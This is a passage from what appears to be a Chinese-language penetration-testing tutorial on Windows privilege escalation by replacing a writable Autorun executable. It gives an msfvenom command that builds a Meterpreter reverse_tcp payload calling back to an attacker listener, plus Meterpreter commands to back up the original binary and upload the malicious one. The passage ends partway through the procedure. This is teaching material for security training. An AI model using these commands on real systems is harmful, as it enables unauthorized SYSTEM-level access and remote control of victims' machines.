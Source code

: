     `RW` 表示组具有读写权限，因此可以更改程序目录的内容。

    ![图 9.4 – accesschk Autorun 程序](img/B17389_09_004.jpg)

    图 9.4 – accesschk Autorun 程序

    如前面的截图所示，我们识别了`program.exe`可执行文件及其权限。在这种情况下，该可执行文件具有`NT AUTHORITY \SYSTEM`访问权限。我们可以利用这个程序通过替换可执行文件为 Meterpreter shell 可执行文件来提升我们的权限，当管理员登录时，Meterpreter shell 会自动执行，从而为我们提供一个提升的 Meterpreter 会话。

    下一步将涉及生成反向 shell 可执行文件，并将其上传到目标系统。

    注

    这种权限提升技术要求管理员登录系统，才能执行 Autorun 程序。

1.  我们可以使用`msfvenom`生成 Meterpreter 有效载荷并将其保存为可执行文件。这可以通过在 Kali 中运行以下命令来完成：

    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER-IP> LPORT=<PORT> -f exe > /home/kali/Desktop/program.exe`

    注

    反向 shell 有效载荷应与我们试图利用的程序同名，并应上传到我们之前识别的、并在此处标明的相应服务路径。

1.  生成有效载荷后，我们可以将其上传到目标系统的 Autorun 应用程序路径，该路径如下：

    C:\Program Files\Autorun Program\

1.  在上传 Meterpreter 有效载荷之前，我们需要重命名原始的二进制文件。然而，建议先备份原始二进制文件，以防万一过程未按预期执行。可以通过在 Meterpreter 会话中运行以下命令来重命名原始可执行文件：

    `mv program.exe program_backup.exe`

1.  现在，我们可以通过在 Meterpreter 会话中运行以下命令，将 Meterpreter 可执行文件上传到目标系统的 Autorun 程序目录：

    `upload /home/kali/Desktop/program.exe`

    如果你使用的是标准命令行 shell，你可以使用`certutil`工具将二进制文件传输到目标系统。

    如以下截图所示，这将把 Meterpreter 可执行文件上传到`Autorun Program`目录：

    ![图 9.5 – 上传自定义 Autorun 程序](img/B17389_09_005.jpg)
